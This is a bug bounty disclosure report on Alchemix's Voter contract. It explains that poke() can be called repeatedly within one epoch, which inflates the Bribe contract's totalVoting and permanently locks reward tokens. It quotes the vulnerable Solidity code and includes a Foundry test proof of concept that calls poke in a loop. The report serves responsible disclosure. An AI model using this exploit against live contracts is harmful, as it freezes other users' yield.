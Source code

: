 # 30671 - \[SC - Critical] Reward token permanent freeze due to bulk call ...

Submitted on May 4th 2024 at 00:49:59 UTC by @cryptoticky for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30671

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:

* Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results
* Permanent freezing of unclaimed yield

## Description

## Brief/Intro

The poke function facilitates users to vote with the same weight for each pool in each epoch easily. The problem is that this function does not use a onlyNewEpoch modifier. As a result, an attacker could potentially call this function hundreds of times within a single epoch, and the totalVoting of bribe contract does not accurately track such actions.

## Vulnerability Details

Voting.poke function doesn't use onlyNewEpoch modifier

```
    /// @inheritdoc IVoter
    function poke(uint256 _tokenId) public {
        // Previous boost will be taken into account with weights being pulled from the votes mapping
        uint256 _boost = 0;

        if (msg.sender != admin) {
            require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
        }

        address[] memory _poolVote = poolVote[_tokenId];
        uint256 _poolCnt = _poolVote.length;
        uint256[] memory _weights = new uint256[](_poolCnt);

        for (uint256 i = 0; i < _poolCnt; i++) {
            _weights[i] = votes[_tokenId][_poolVote[i]];
        }

        _vote(_tokenId, _poolVote, _weights, _boost);
    }
```

\_vote function call \_reset function and the \_reset function call withdraw of Bribe contract.

```
/// @inheritdoc IBribe
    function deposit(uint256 amount, uint256 tokenId) external {
        require(msg.sender == voter);

        totalSupply += amount;
        balanceOf[tokenId] += amount;

        totalVoting += amount;

        _writeCheckpoint(tokenId, balanceOf[tokenId]);
        _writeSupplyCheckpoint();
        _writeVotingCheckpoint();

        emit Deposit(msg.sender, tokenId, amount);
    }

    /// @inheritdoc IBribe
    function withdraw(uint256 amount, uint256 tokenId) external {
        require(msg.sender == voter);

        totalSupply -= amount;
        balanceOf[tokenId] -= amount;

        _writeCheckpoint(tokenId, balanceOf[tokenId]);
        _writeSupplyCheckpoint();

        emit Withdraw(msg.sender, tokenId, amount);
    }
```

As you can see, in Bribe.withdraw function, totalVoting is not calcutated. In the end, totalVoting only keeps increasing.

The totalVoting is used to calculate reward amount of a tokenId.

```
/// @inheritdoc IBribe
    function earned(address token, uint256 tokenId) public view returns (uint256) {
        if (numCheckpoints[tokenId] == 0) {
            return 0;
        }

        uint256 _startTimestamp = lastEarn[token][tokenId];

        // Prevent earning twice within an epoch
        if (block.timestamp - _bribeStart(_startTimestamp) < DURATION) {
            return 0;
        }

        uint256 _startIndex = getPriorBalanceIndex(tokenId, _startTimestamp);
        uint256 _endIndex = numCheckpoints[tokenId] - 1;

        uint256 reward = 0;
        // you only earn once per epoch (after it's over)
        Checkpoint memory prevRewards; // reuse struct to avoid stack too deep
        prevRewards.timestamp = _bribeStart(_startTimestamp);
        uint256 _prevSupply = 1;

        if (_endIndex >= 0) {
            for (uint256 i = _startIndex; i <= _endIndex; i++) {
                Checkpoint memory cp0 = checkpoints[tokenId][i];
                uint256 _nextEpochStart = _bribeStart(cp0.timestamp);
                // check that you've earned it
                // this won't happen until a week has passed
                if (_nextEpochStart > prevRewards.timestamp) {
                    reward += prevRewards.balanceOf;
                }

                if (_startIndex == _endIndex) break;

                prevRewards.timestamp = _nextEpochStart;
                _prevSupply = votingCheckpoints[getPriorVotingIndex(_nextEpochStart + DURATION)].votes;

                // Prevent divide by zero
                if (_prevSupply == 0) {
                    _prevSupply = 1;
                }
                prevRewards.balanceOf = (cp0.balanceOf * tokenRewardsPerEpoch[token][_nextEpochStart]) / _prevSupply;
            }
        }

        Checkpoint memory cp = checkpoints[tokenId][_endIndex];
        uint256 _lastEpochStart = _bribeStart(cp.timestamp);
        uint256 _lastEpochEnd = _lastEpochStart + DURATION;
        uint256 _priorSupply = votingCheckpoints[getPriorVotingIndex(_lastEpochEnd)].votes;

        // Prevent divide by zero
        if (_priorSupply == 0) {
            _priorSupply = 1;
        }

        if (block.timestamp > _lastEpochEnd) {
            reward += (cp.balanceOf * tokenRewardsPerEpoch[token][_lastEpochStart]) / _priorSupply;
        }

        return reward;
    }
```

## Impact Details

* Users end up receiving less rewards than what the actual voting results would entitle them to.
* The remaining reward amount is locked forever.

Unfortunately, the bribe contract does not have a function to withdraw this remaining amount.

## Proof of Concept

```
// SPDX-License-Identifier: GPL-3
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract BugPokePoC is BaseTest {

    function setUp() public {
        setupContracts(block.timestamp);
    }

    function testBugPoke() public {
        uint256 tokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        address bribeAddress = voter.bribes(address(sushiGauge));
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        uint256 totalVoting;
        uint256 poolWeight;

        hevm.startPrank(admin);

        uint256 period = minter.activePeriod();

        hevm.warp(period + nextEpoch);
        voter.distribute();

        voter.vote(tokenId, pools, weights, 0);

        poolWeight = voter.weights(sushiPoolAddress);
        totalVoting = IBribe(bribeAddress).totalVoting();
        console.log("poolWeight", poolWeight);
        console.log("totalVoting", totalVoting);
        console.log("totalVoting / poolWeight", totalVoting / poolWeight);
        // Next epoch
        hevm.warp(block.timestamp + nextEpoch);
        voter.distribute();


        // An attacker can call poke function more than 100 times on one tx,
        // and all users will receive less reward than the actual reward value they deserve.
        // The rest of the reward token will be locked in the bribe contracts forever.
        for (uint256 i = 0; i < 5; i++) {
            voter.poke(tokenId);

            poolWeight = voter.weights(sushiPoolAddress);
            totalVoting = IBribe(bribeAddress).totalVoting();
            console.log("poke", poolWeight);
            console.log("totalVoting", totalVoting);
            console.log("totalVoting / poolWeight", totalVoting / poolWeight);
        }
    }
}
```
